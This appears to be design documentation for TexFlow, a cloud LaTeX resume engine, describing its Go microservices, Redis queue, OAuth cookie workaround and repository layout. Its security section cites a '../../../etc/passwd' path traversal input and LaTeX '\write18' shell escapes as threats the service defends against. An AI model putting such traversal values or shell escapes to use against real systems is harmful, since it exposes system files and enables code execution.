









# 1. Executive Summary

**What problem does the project solve?**
TexFlow solves the problem of tedious resume tailoring for job seekers (specifically engineers and tech professionals). Managing multiple versions of a LaTeX resume for different job applications, manually compiling PDFs, and keeping track of which version was sent to which company is a massive pain point. 

**Who is the target user?**
Software Engineers, Researchers, Data Scientists, and Tech Professionals who use LaTeX for ATS (Applicant Tracking System) friendly resumes.

**Why was it built?**
To automate the repetitive tasks associated with job hunting. Job seekers need to rapidly create new resume variants, compile them without installing a heavy local LaTeX environment (like TeX Live), and safely store a historical snapshot of exactly what was submitted to each company.

**What makes it different from existing solutions?**
Unlike Overleaf, which is a generic LaTeX editor, TexFlow is purpose-built as a "Resume Engine". It features a built-in Job Application Tracker, automatic background compilation, automatic Git snapshotting (ATS auto-push), and Google Drive integration to auto-upload PDFs, all specifically tailored for a job seeker's workflow. It uses the Tectonic engine for fast, headless compilation.

# 2. Project Story

**Origin of the idea & Motivation:**
The idea originated from the frustration of local LaTeX setup (gigabytes of dependencies) and the manual file management required when applying to dozens of companies. Each company requires a slightly tweaked resume. Creating a new folder, modifying `resume.tex`, running `pdflatex`, and pushing to a repo manually is slow.

**Real-world problem being solved:**
ATS systems parse PDFs. LaTeX is the gold standard for ATS parsing. However, managing LaTeX is hard. TexFlow provides a zero-setup, cloud-based IDE specifically for this.

**Alternative approaches considered:**
*   **Local CLI tool:** Ruled out because it requires users to install LaTeX locally.
*   **Overleaf extension:** Ruled out because Overleaf's API/extensions are limited and it lacks a dedicated job tracking interface.
*   **WebAssembly (WASM) LaTeX in browser:** Ruled out due to massive WASM bundle sizes and memory constraints for complex LaTeX packages.

**Why the final architecture was chosen:**
A microservice architecture (API Gateway + Background Compiler) was chosen because compilation is a CPU-intensive, long-running task. If the main web server handled compilation synchronously, it would block API requests and lead to poor UX. Using Redis to queue jobs ensures the API stays responsive while background workers handle the heavy lifting.

# 3. High-Level Architecture

**Complete Architecture Diagram:**

```text
[ Browser (React/Vite) ] <---> [ Vercel Edge / CDN ]
        |                              |
        v                              v
[ API Gateway (Go/Chi) ] <---> [ PostgreSQL (Supabase) ]
        |   ^                          |
 (REST) |   | (SSE Stream)             v
        v   |                  [ MinIO / R2 (Storage) ]
 [ Redis Queue (Upstash) ]             ^
        |                              |
        v                              |
[ Compiler Worker (Go) ] >-[ Tectonic ]-
```

*   **Frontend Responsibilities:** Handles UI/UX, Monaco code editor, Job Tracker dashboard, SSE log streaming, and OAuth redirects.
*   **Backend Responsibilities (API Gateway):** Handles authentication, project metadata CRUD, version control, uploading zip files, enqueuing compile jobs to Redis, and streaming SSE logs to the client.
*   **Database Responsibilities (PostgreSQL):** Stores user data, project metadata, version history, and compile job statuses.
*   **Queue Responsibilities (Redis):** Decouples the API from the compiler. Manages a priority queue (manual vs background compile) and handles Pub/Sub for real-time SSE log streaming.
*   **Storage Responsibilities (MinIO/S3):** Stores raw `.tex` files, compiled `.pdf` files, and `.log` outputs.
*   **Authentication Flow:** Google OAuth2 -> Exchange Code -> JWT HttpOnly Cookie.
*   **Compilation Flow:** UI triggers compile -> API creates DB job -> API pushes to Redis -> Worker pops job -> Downloads source from S3 -> Runs Tectonic -> Uploads PDF to S3 -> Marks DB success -> Notifies UI via SSE.
*   **Versioning Flow:** User hits "Save Version" -> API clones current MinIO folder -> Creates new Version record in DB -> Pushes code to GitHub -> Kicks off background compile.

# 4. Complete Tech Stack

**Frontend: React + Vite + TypeScript**
*   **Why:** Fast HMR, strong typing, massive ecosystem.
*   **Alternatives:** Next.js (ruled out because SEO is less critical for an authenticated IDE dashboard; a pure SPA is faster and cheaper to host).
*   **Tradeoffs:** Client-side routing means initial load might be slightly slower than SSR, but subsequent navigation is instant.

**Backend: Go (Golang) + Chi Router**
*   **Why:** High performance, strong concurrency (goroutines are perfect for SSE and workers), statically typed, builds to a single static binary.
*   **Alternatives:** Node.js/Express, Python/FastAPI.
*   **Benefits:** Low memory footprint (crucial for free tier hosting), incredibly fast execution.

**Database: PostgreSQL (Supabase)**
*   **Why:** Relational data model perfectly fits Users -> Projects -> Versions -> Jobs. ACID compliance ensures data integrity during version snapshots.
*   **Alternatives:** MongoDB (NoSQL lacks strict schema enforcement which is needed here).

**Queue & Pub/Sub: Redis (Upstash)**
*   **Why:** In-memory, ultra-fast. Supports both Queues (Lists/ZSets) and Pub/Sub (for SSE).
*   **Alternatives:** RabbitMQ (too complex/heavy), Kafka (overkill).

**Storage: S3 API (Cloudflare R2)**
*   **Why:** Zero egress fees, standard S3 API compatibility.
*   **Alternatives:** AWS S3 (expensive egress), local disk (not scalable/stateless).

**Compiler Engine: Tectonic**
*   **Why:** Self-contained XeTeX engine. It automatically downloads missing packages on the fly, eliminating the need to pre-install a 5GB TeX Live distribution in the Docker image.
*   **Alternatives:** pdflatex / TeX Live. (Too bloated).

# 5. Feature Breakdown

**1. Hot Compile with SSE Logs**
*   **What it does:** Compiles LaTeX on `Ctrl+S` and streams terminal output to the UI.
*   **Internals:** API enqueues job -> Worker starts `tectonic` -> Captures stdout via pipe -> Publishes line-by-line to Redis Pub/Sub -> API Gateway subscribes to Redis -> Pipes lines via SSE to React.
*   **Edge cases:** Tectonic panics or gets stuck in an infinite loop. Handled by a strict timeout `context.WithTimeout` in the worker.

**2. Version Snapshotting (ATS Tracker)**
*   **What it does:** Saves a point-in-time snapshot of the resume for a specific job application.
*   **Internals:** Copies the current workspace in MinIO to a new prefix path. Records company, role, and notes in PostgreSQL. Enqueues a priority=1 (background) compile job.
*   **Edge cases:** What if the user creates two versions instantly? PostgreSQL `next_version_num` function uses a transaction to ensure monotonic numbering without race conditions.

**3. Google Drive Auto-Upload**
*   **What it does:** Uploads the successfully compiled PDF to the user's personal Google Drive.
*   **Internals:** User links Drive via OAuth -> Tokens stored -> Worker compiles PDF -> Uses Google Drive API to upload -> Sets permissions to `anyoneWithLink` -> Saves link to DB.

**4. GitHub Auto-Push**
*   **What it does:** Pushes a copy of the source code to a GitHub repo as a backup.
*   **Internals:** Uses `go-git` library in-memory. Authenticates via GitHub OAuth tokens, creates a commit with the company name, and pushes.

# 6. Database Design

*   **`users`**: `id`, `email`, `name`, `avatar_url`. Purpose: Tenant isolation.
*   **`projects`**: `id`, `user_id`, `name`. Purpose: Groups resume variations together.
*   **`versions`**: `id`, `project_id`, `version_num`, `storage_path`, `applied_company`, `role`. Purpose: The core tracking entity. `storage_path` links to MinIO. Unique constraint on `(project_id, version_num)`.
*   **`compile_jobs`**: `id`, `project_id`, `version_id`, `status`, `log_path`, `output_path`. Purpose: Audit trail and asynchronous tracking.

**Why this schema:** It strictly enforces hierarchy. A job belongs to a version, a version belongs to a project. Cascading deletes ensure cleanup.

# 7. Authentication Deep Dive

**Flow:**
1. User clicks "Login with Google".
2. API Gateway redirects to Google OAuth consent screen.
3. Google redirects back to API Gateway `/api/auth/google/callback` with a code.
4. API Gateway exchanges code for User Info, upserts the user in DB, and generates a JWT.
5. **The Cross-Domain Issue:** If the backend (e.g., `api.render.com`) tries to `Set-Cookie` directly while redirecting the browser to the frontend (e.g., `app.vercel.app`), modern browsers (Chrome/Safari) will block the cookie due to strict third-party cookie policies.
6. **The Fix:** The backend stores the JWT in Redis with a 60-second TTL under a temporary UUID. It redirects the browser to `frontend.com/auth/callback?code=<UUID>`. The frontend then makes an AJAX POST to `/api/auth/exchange?code=<UUID>`. Because this AJAX call goes through the Vercel Reverse Proxy (`frontend.com/api/...`), the browser sees it as a First-Party request. The backend returns the `Set-Cookie` header, and the browser happily saves the `HttpOnly` cookie.

**Lessons Learned:** Never rely on cross-domain `Set-Cookie` redirects in modern web architecture. Always use a proxy rewrite or a token exchange flow.

# 8. Resume Compilation Pipeline

1. **Upload:** User drops a `.zip`. API extracts it, validates no path traversal (`..`), ensures a `.tex` file exists, and streams files directly to MinIO.
2. **Queue:** API creates `CompileJob` in DB, pushes JSON payload to Redis ZSet (Priority Queue).
3. **Worker:** A goroutine pool in the `compiler-service` constantly polls Redis.
4. **Execution:** Worker pops job, creates a temporary `/tmp` dir, downloads files from MinIO.
5. **Tectonic:** A regular expression scrubs `pdfgentounicode` primitives (which crash XeTeX). The worker executes `tectonic main.tex`.
6. **PDF/Log:** Output is streamed to Redis Pub/Sub. The final PDF and Log are uploaded back to MinIO. The DB is updated to `success`.

# 9. Version Control System

We deliberately chose NOT to use raw Git for the primary version storage on the backend.
**Why?** Managing thousands of bare git repositories on a disk statefully does not scale well in a serverless/containerized environment (Render/Cloud Run).
**Solution:** MinIO Object Storage. A "version" is simply a folder prefix in S3 (e.g., `resumes/proj123/vers456/`). Creating a snapshot just duplicates the S3 objects. It is completely stateless, infinitely scalable, and requires no local disk management.

# 10. Infrastructure & Deployment

*   **Vercel:** Hosts the Vite/React frontend. configured via `vercel.json` to proxy `/api/*` to Render.
*   **Render (API Gateway):** Go Web Service. Handles high concurrency API requests.
*   **Render (Compiler Worker):** Docker Background Worker. Runs the custom `Dockerfile` containing Debian + Tectonic + the Go worker binary.
*   **Supabase:** Managed PostgreSQL.
*   **Upstash:** Managed Serverless Redis.
*   **Cloudflare R2:** S3-compatible storage.

# 11. Major Problems Faced During Development

**1. Cross-Domain Cookie Blocking**
*   **Symptoms:** User logs in, gets redirected to frontend, but is immediately logged out.
*   **Root Cause:** Browser blocking third-party `Set-Cookie` on redirect.
*   **Final Fix:** Implemented the Redis Auth Code Exchange flow (described in Auth Deep Dive) + Vercel reverse proxy.

**2. Playwright E2E Test Timeouts causing API 404s**
*   **Symptoms:** E2E tests would run, trigger a compile, and then randomly fail. Backend logs showed `404 Not Found` for the PDF download endpoint.
*   **Root Cause:** The Playwright default timeout was 30s. The full flow (upload, compile, render) sometimes took 35s. Playwright would abort the browser. The aborted browser abruptly killed the HTTP context. The backend `ProjectAuthMiddleware` failed to handle the canceled context correctly, bubbling up an error that looked like a 404 instead of a 499 (Client Closed Request).
*   **Final Fix:** Increased Playwright timeout to 180s. Improved backend logging to catch `context.Canceled`.

**3. Tectonic Failing on standard pdflatex packages**
*   **Symptoms:** Compiling standard templates failed with `Undefined control sequence: \pdfgentounicode`.
*   **Root Cause:** Tectonic uses XeTeX under the hood, which doesn't support legacy pdfTeX primitives like `\pdfgentounicode`.
*   **Final Fix:** Added an automatic sanitization step in the Go worker that regex-replaces `\pdfgentounicode` with `% \pdfgentounicode` before passing the file to Tectonic.

# 12. Security Considerations

*   **Path Traversal:** Zip uploads are strictly sanitized to prevent `../../../etc/passwd` style attacks when saving to the temporary compilation directory.
*   **RCE via LaTeX:** LaTeX is Turing complete and allows shell escapes (`\write18`). Tectonic runs in a restricted mode by default, disabling shell escapes, preventing Remote Code Execution.
*   **Tenancy:** `ProjectAuthMiddleware` ensures Users can only access `projects` where `user_id = current_user.id`.
*   **Cookies:** `HttpOnly`, `Secure`, `SameSite=None` (required due to proxy architecture in some environments).

# 13. Performance Considerations

*   **Why Queues:** Compiling a PDF takes 2-5 seconds. If 100 users hit save at once, it would freeze the API. Redis queues smooth out the load.
*   **Tectonic over TeX Live:** TeX Live Docker images are ~4GB. The Tectonic container is ~150MB. It downloads packages lazily over the network and caches them locally, vastly reducing startup times and memory footprint.
*   **Connection Pooling:** Using `pgxpool` for PostgreSQL to handle high concurrency DB hits during polling and state updates.

# 14. Design Decisions

*   **Decision:** Split API and Compiler into two microservices.
    *   *Why:* Scalability. API needs high connection count / low CPU. Compiler needs low connection count / high CPU. They scale on different axes.
*   **Decision:** UI Layout - Top Navbar instead of Sidebar.
    *   *Why:* Editing LaTeX requires maximum horizontal screen real estate (code on left, PDF on right). A global sidebar wastes 250px.
*   **Decision:** Vercel API Proxy.
    *   *Why:* Eliminates CORS preflight (`OPTIONS`) requests entirely, saving 50-100ms per API call, and solves the OAuth cookie domain issue.

# 15. Resume Talking Points

**30-Second Explanation:**
"I built a cloud-based LaTeX Resume Engine called TexFlow. It provides a zero-setup IDE for software engineers to instantly hot-compile their resumes. It uses a Go microservice architecture with Redis queues to handle heavy PDF compilation in the background, allowing users to track job applications and auto-sync their ATS-optimized resumes to GitHub and Google Drive."

**1-Minute Explanation:**
"TexFlow is a specialized ATS resume manager. I noticed managing multiple LaTeX resume versions locally was a nightmare. So I built a React frontend connected to a Go API Gateway. When a user edits their resume, the API queues a job in Redis. A separate background worker picks it up, securely compiles it using the Tectonic engine, stores the artifacts in S3, and streams the terminal logs back to the user via Server-Sent Events in real-time. It completely removes the need for local TeX installations and organizes everything into a job tracking dashboard."

**2-Minute Explanation:**
*(Add architecture details)* "...To handle the load safely without RCE vulnerabilities, I strictly isolated the compiler. The UI talks to a lightweight Go API. The API is stateless, storing metadata in PostgreSQL and files in Cloudflare R2 (S3). When a compile triggers, the job hits a Redis priority queue. My worker service, running in a minimal Docker container, executes Tectonic. I had to solve complex cross-domain authentication issues between Vercel and Render by implementing a Redis-backed one-time token exchange. I also built seamless OAuth integrations so that whenever a user saves a snapshot for a job, it automatically commits the code to GitHub and uploads the PDF to Google Drive."

**5-Minute Deep Dive:**
*(Expand on Edge Cases and Infrastructure)* "...Let's talk about the compiler worker pool. I implemented a semaphore-controlled worker pool in Go to prevent CPU starvation. If 100 jobs arrive, the API accepts them instantly (HTTP 202), but the workers only process N at a time based on core count. One major issue I faced was Playwright E2E tests falsely reporting 404s. It turned out Playwright's timeout was killing the browser, which aborted the HTTP context, cascading into the Go middleware failing to gracefully handle the canceled context. By adding strict context-aware logging, I identified the timeout and hardened the middleware. Another challenge was legacy LaTeX packages crashing Tectonic; I built a pre-processor to sanitize `\pdfgentounicode` primitives on the fly before compilation."

# 16. Future Improvements

*   **Technical:** Implement WebSockets instead of SSE for bidirectional communication (e.g., auto-complete language server for LaTeX).
*   **Infrastructure:** Move from Upstash Redis to a self-hosted Redis instance inside a VPC for lower latency between the API and Worker.
*   **Product:** Add an AI assistant that reads the job description and automatically suggests LaTeX diffs to tailor the bullet points for the specific role.
*   **Security:** Implement a strict seccomp profile or use gVisor for the Docker compiler worker to add a secondary sandbox layer against malicious TeX packages.

# 21. Complete Repository Structure

The TexFlow repository is designed as a modular Go and React workspace. The directory tree separates the HTTP Gateway, the background CPU-intensive Compiler Worker, the shared packages, and the client frontend.

```text
TexProject/
├── api-gateway/                 # Handles REST API, routing, JWT sessions, Google Drive/GitHub integration
│   ├── internal/
│   │   ├── githandler/          # Git Push webhook processing logic
│   │   │   └── webhook.go
│   │   ├── githubsvc/           # In-memory GitHub push API interface via go-github/v62
│   │   │   └── client.go
│   │   ├── handlers/            # Handlers for Auth, Compiling, Projects, Files, Drive, Versions
│   │   │   ├── auth.go
│   │   │   ├── compile.go
│   │   │   ├── drive_auth.go
│   │   │   ├── editor.go
│   │   │   ├── handler.go
│   │   │   ├── projects.go
│   │   │   ├── upload.go
│   │   │   └── versions.go
│   │   ├── metrics/             # Custom Prometheus metrics for queue depth and compile processing
│   │   │   └── metrics.go
│   │   └── sse/                 # Server-Sent Events broker logic with Redis Pub/Sub integration
│   │       └── broker.go
│   └── main.go                  # API Gateway entrypoint
├── compiler-service/            # Pulls jobs from Redis queue, runs LaTeX compiles locally via Tectonic
│   ├── internal/
│   │   └── worker/              # Worker pool orchestration and latexmk compile executor
│   │       ├── executor.go
│   │       ├── pdfinfo.go
│   │       └── pool.go
│   ├── Dockerfile
│   └── main.go                  # Compiler service entrypoint
├── shared/                      # Logic shared between api-gateway and compiler-service
│   ├── config/                  # Core configuration model parsing environmental variables
│   │   └── config.go
│   ├── db/                      # DB initialization, pooled connections via jackc/pgx/v5
│   │   ├── db.go
│   │   └── schema.sql           # Complete Database Schema migration definitions
│   ├── gdrivesvc/               # Google Drive v3 client uploading PDFs to remote Drive folder
│   │   └── client.go
│   ├── models/                  # Shared domain types (User, Project, Version, CompileJob)
│   │   └── models.go
│   ├── queue/                   # Redis Sorted Set priority queue client and Pub/Sub channel logs
│   │   └── queue.go
│   └── storage/                 # MinIO / Cloudflare R2 S3 Object Storage connector wrapper
│       └── storage.go
├── frontend/                    # React SPA built with Vite and TailwindCSS
│   ├── public/                  # Static assets and browser logos
│   ├── src/
│   │   ├── assets/              # Icons and custom svg resources
│   │   ├── components/          # Reusable UI widgets (Toast.tsx, Modal.tsx, spinner widgets)
│   │   ├── contexts/            # Global contexts (AuthContext.tsx)
│   │   ├── pages/               # Views: Login, Dashboard, Projects, Project Detail / Editor, Onboarding, AuthCallback
│   │   │   ├── AuthCallback.tsx
│   │   │   ├── DashboardPage.tsx
│   │   │   ├── LoginPage.tsx
│   │   │   ├── OnboardingPage.tsx
│   │   │   ├── ProjectDetailPage.tsx
│   │   │   └── ProjectsPage.tsx
│   │   ├── App.css
│   │   ├── App.tsx              # Component hierarchy tree & Client-Side routing definitions
│   │   ├── api.ts               # Core API fetch client wrappers & SSE log stream helpers
│   │   ├── index.css            # Stylesheets with modern custom variables
│   │   └── main.tsx             # Application mount initialization
│   ├── playwright.config.ts     # Playwright test config setup
│   ├── vercel.json              # Reverse API routing and fallback SPA rewrites for deployment
│   └── package.json
├── go.work                      # Go multi-module workspace definition
├── go.work.sum
├── Makefile                     # Make target definitions for builds and local infrastructure
└── run_migration.go             # Migrations runner script applying schemas to production databases
```

### Purpose of Key Directories & Responsibilities
- **`api-gateway`**: Acts as the single entrypoint for the frontend and webhooks. It owns authentication, user management, and project hierarchy validation. It performs no compilation but mediates access to Redis queues and S3 templates.
- **`compiler-service`**: A stateless, highly focused worker daemon. Its only responsibility is to poll Redis for compile payloads, construct an execution workspace on local disk, invoke LaTeX compiling tools (Tectonic), check resume guidelines (e.g. strict page counts), update S3 outputs, and log failures.
- **`shared`**: Eliminates code duplication across Go microservices. Contains connection utilities for Postgres, Redis, and MinIO clients, configuration definitions, Google Drive client bindings, and standard relational model mappings.
- **`frontend`**: Serves as the user interface, incorporating Monaco Editor for code writing, real-time Server-Sent Events logging, and application trackers. It relies on standard Vite bundling and is designed to run statically.

### Startup Flows

#### 1. Frontend Startup Flow
```text
[Browser Navigation]
         │
         ▼
[Vercel Server] ──(Serves index.html & main.tsx bundle)──► [Browser Engine]
                                                                  │
                                                                  ▼
                                                          [Render App.tsx]
                                                                  │
                                                                  ▼
                                                         [Init AuthProvider]
                                                                  │
                                            ┌─────────────────────┴─────────────────────┐
                                            ▼ (Fire useEffect)                          ▼
                                   [GET /api/auth/me]                          [Initialize Router]
                                            │                                           │
                           ┌────────────────┴────────────────┐                          │
                           ▼ (Cookie valid)                  ▼ (Cookie invalid)         ▼
                    [Set User State]                 [Redirect /login]           [Render Route]
```

#### 2. Backend (API Gateway) Startup Flow
1. **Load Configuration**: Calls `config.Load()` to read configuration values from `.env` or system environment.
2. **Connect to Storage/DB Pools**:
   - Spawns `db.New()` establishing connection limits to PostgreSQL via `pgxpool`.
   - Connects to Redis Client wrapping `redis.ParseURL()`.
   - Launches MinIO Client, testing bucket access via `mc.BucketExists()`.
3. **Instantiate Services**:
   - Spawns background Broker thread `broker.Run(ctx)` checking Redis Pub/Sub logs.
   - Registers Prometheus metric observers (`metrics.Init()`).
4. **Router & Server Bindings**:
   - Instantiates a `chi.NewRouter()`, mapping logging, CORS, and request tracking.
   - Binds public handlers (Auth, webhook gateways) and applies `AuthMiddleware` protection to project management resources.
   - Starts listening asynchronously on HTTP port.
